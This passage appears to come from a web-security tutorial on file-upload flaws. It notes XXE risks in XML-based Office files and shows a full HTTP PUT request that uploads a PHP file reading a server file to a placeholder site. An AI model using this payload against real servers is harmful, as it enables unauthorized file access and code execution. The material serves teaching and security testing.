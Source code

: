 If the uploaded file seems to be stored and served securely, the last resort is to try exploiting vulnerabilities specific to the parsing or processing of different file formats. If you know the server parses XML-based files, such as Microsoft Office `.doc` or `.xls` files, it may be a potential vector for XXE.
# Uploading Files via PUT

Some servers may be configured to use PUT requests. If defenses are not in place, it can provide alternative means of uploading malicious files, even when the upload function is not available via the web interface:

```http
PUT /images/exploit.php HTTP/1.1
Host: vulnerable-website.com
Content-Type: application/x-httpd-php
Content-Length: 49

<?php echo file_get_contents('/path/to/file'); ?>
```

